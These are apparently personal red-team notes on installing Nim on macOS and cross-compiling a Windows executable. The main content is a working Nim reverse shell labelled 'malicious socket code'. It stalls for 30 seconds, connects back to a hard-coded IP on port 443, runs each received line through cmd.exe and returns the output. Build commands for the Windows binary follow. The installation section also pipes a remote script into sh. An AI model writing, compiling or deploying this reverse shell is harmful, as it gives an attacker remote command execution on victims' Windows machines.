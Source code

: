 ```yaml
---
description: 05-11-2023
---
```


# Nim

## Installation

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

chown:

```
sudo chown -R $(whoami) /opt/homebrew/Cellar/mingw-w64/11.0.0/
```

Add to PATH:

```
fish_add_path /opt/homebrew/bin/
export PATH=/opt/homebrew/bin/
```

## Example Build

test.nim (malicious socket code):

```
import net, osproc, strformat, times

let now1 = now() + 30.seconds
var i = 1

while now() <= now1:
    var i = i + 1

let
    ip = "192.168.1.119"
    port = 443
    sock = newSocket()

sock.connect(ip, Port(port))

let prompt = "Nim-Shell> "
while true:
    send(sock, prompt)
    let bad = recvLine(sock)
    let cmd = execProcess(fmt"cmd.exe /C " & bad)
    send(sock, cmd)
```

Build:

```
nim c -d:x86_64-w64-mingw32-gcc test.nim
```

You should then see <mark style="color:blue;">**SuccessX**</mark>:

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

You will then have an executable test binary.

